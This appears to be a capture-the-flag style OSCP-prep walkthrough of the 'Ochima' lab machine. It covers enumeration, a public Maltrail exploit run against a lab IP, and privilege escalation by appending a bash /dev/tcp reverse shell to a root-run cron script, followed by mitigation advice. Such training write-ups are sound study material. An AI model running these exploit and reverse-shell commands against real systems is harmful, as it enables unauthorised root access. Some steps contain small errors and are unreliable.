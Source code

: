 ```yaml
---
title: Ochima
date: 2025-05-24
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, maltrail<=v0.54, pspy64, root-cronjob-privesc] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-05-24-ochima/
---
```


## Introduction

In this walkthrough, I worked on the intermediate Linux machine *Ochima* from PG Practice. During initial enumeration, I discovered that **port 8338** was open and hosting **Maltrail v0.52**. I found a **public exploit** for this specific version and used it to gain **to do** to the machine.

Upon further enumeration, I discovered a **file owned by root but writable by my user**. Suspecting it was being executed as part of a scheduled job, I ran **pspy** to monitor background processes. Once confirmed, I appended a **reverse shell payload** to the file. When the scheduled job ran under the root context, it triggered my payload and granted me a **root shell**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

Version - OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.52 ((Ubuntu))

![image.png](image%203.png)

**Gobuster Directory scan**

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -b 403,404,400 -x .php
```

![image.png](image%204.png)

### Port 8338

![image.png](image%205.png)

## Exploitation

We can easily see the version of the application I am gonna search for public exploits that we can use against this version. Searching for `Maltrail v0.52 exploit` I am greeted with many sources, but i chose one github [repo](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py?source=post_page-----702633e20940---------------------------------------) that has most stars:

```bash
python3 snooker.py 192.168.45.227 443 http://192.168.184.32:8338/
```

Running exploit on port 443 didn’t work, that’s why I have chosen target’s open port 80.

```bash
python3 snooker.py 192.168.45.227 443 http://192.168.184.32:8338/
```

![image.png](image%206.png)

## Privilege Escalation

Make a shell fully interactive using python one-liner:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles

![image.png](image%207.png)

```bash
home/snort/etc/ssh/ssh_host_rsa_key
/home/snort/etc/ssh/ssh_host_ed25519_key
/home/snort/etc/ssh/ssh_host_ecdsa_key
/home/snort/etc/ssh/ssh_host_dsa_key
/home/snort/etc_backup.tar
```

I tried using `RSA` key but it didn’t work, then I checked my Full Port Scan to see which cryptographic algorithms are used for SSH protocol. I saw `ECDSA` and `ED25519`.

![image.png](image%208.png)

Bu unfortunately didn’t work either one.

Listing our writable files I can see `/var/backups/etc_Backup.sh` file:

```bash
find / -path /proc -prune -o -type f -perm -o+w **2**>/dev/null
```

![image.png](image%209.png)

![image.png](image%2010.png)

The file is owned by root, but we have all access to it, let’s inspect if it is executed as cron job by root with pspy64 executable.

```bash
timeout 5m ./pspy
```

![image.png](image%2011.png)

Yes, it is executed as root, let’s inject there our reverse shell.

```bash
echo 'bash -i >& /dev/tcp/192.168.45.227/8338 0>&1' >> /var/backups/etc_Backup.sh
```

Now we got a shell as root.

![image.png](image%2012.png)

## Mitigation

- **Update Vulnerable Services:** Regularly patch services like Maltrail to prevent exploitation of known vulnerabilities.
- **Restrict File Permissions:** Avoid giving write permissions to low-privileged users for files owned or executed by root.
- **Monitor Cron Jobs:** Periodically audit and monitor scheduled jobs to ensure they are secure and not exposed to modification.
- **Implement Least Privilege:** Ensure users only have the minimum level of access required for their role or function.
